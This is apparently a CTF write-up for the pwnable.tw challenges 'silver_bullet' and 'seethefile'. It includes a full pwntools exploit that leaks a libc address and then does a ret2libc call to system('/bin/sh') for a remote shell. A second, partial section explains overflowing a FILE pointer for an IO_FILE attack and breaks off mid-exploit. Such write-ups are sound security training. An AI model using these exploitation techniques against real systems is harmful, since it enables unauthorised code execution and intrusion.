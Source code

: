 ## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice :",str(c))
def bt(name):
	cmd(1)
	p.sendafter("bullet :",name)
def pt(name):
	cmd(2)
	p.sendafter("bullet :",name)
#p=process("./silver_bullet",env={'LD_PRELOAD':"./libc_32.so.6"})
p=remote("chall.pwnable.tw",10103)
bt("A"*0x28)
pt("A"*8)
put=0x80484A8
main=0x8048954
got=0x804afdc
context.log_level='debug'
pt("\xff\xff\xff"+p32(0xdeadbeef)+p32(put)+p32(main)+p32(0x804afdc))
cmd(3)
p.readuntil("!!\n")
base=u32(p.read(4))-(0xf75e6140-0xf7587000)
log.warning(hex(base))
#gdb.attach(p)
libc=ELF("./libc_32.so.6")
bt("A"*0x28)
pt("A"*8)
libc.address=base
pt("\xff\xff\xff"+p32(0xdeadbeef)+p32(0xf7578940-0xf753e000+base)+p32(0xdeadbeef)+p32(libc.search("/bin/sh").next()))
cmd(3)
p.sendline("cd /home/silver_bullet")
p.interactive("nier >>>>")
```

# seethefile
IO_FILE 利用
## Analysis
主要功能是读文件然后留下姓名走人....
所以可以利用/proc/sys/self/maps 来泄露地址
之后留名字存在溢出
```c
case 5:
        printf("Leave your name :");
        __isoc99_scanf("%s", &name);
        printf("Thank you %s ,see you next time\n", &name);
        if ( fp )
          fclose(fp);
        exit(0);
        return;
```
可以溢出到fp指针然后fclose可以利用IO_FILE
## EXP
```python
from pwn import *

def cmd(c):
	p.sendlineafter("Your choice :",str(c))
def op(name):
```